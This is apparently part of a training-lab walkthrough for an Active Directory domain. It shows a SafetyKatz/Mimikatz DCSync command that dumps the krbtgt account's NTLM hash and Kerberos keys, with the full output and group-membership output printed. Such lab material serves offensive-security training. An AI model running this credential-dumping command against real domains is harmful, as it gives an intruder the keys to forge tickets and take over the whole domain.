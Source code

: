 ```
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0                                       Mandatory group, Enabled by default, Enabled group
dcorp\RDPUsers                             Group            S-1-5-21-719815819-3726368948-3917688648-1123 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                      Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"`:
```
[SNIP]

mimikatz(commandline) # lsadump::evasive-dcsync /user:dcorp\krbtgt
[DC] 'dollarcorp.moneycorp.local' will be the domain
[DC] 'dcorp-dc.dollarcorp.moneycorp.local' will be the DC server
[DC] 'dcorp\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt🔑
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 11/11/2022 9:59:41 PM
Object Security ID   : S-1-5-21-719815819-3726368948-3917688648-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 4e9815869d2090ccfca61c1fe0d23986🔑
    ntlm- 0: 4e9815869d2090ccfca61c1fe0d23986
    lm  - 0: ea03581a1268674a828bde6ab09db837

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 6d4cc4edd46d8c3d3e59250c91eac2bd

* Primary:Kerberos-Newer-Keys *
    Default Salt : DOLLARCORP.MONEYCORP.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848📌
      aes128_hmac       (4096) : e74fa5a9aa05b2c0b2d196e226d8820e
      des_cbc_md5       (4096) : 150ea2e934ab6b80

[SNIP]
```

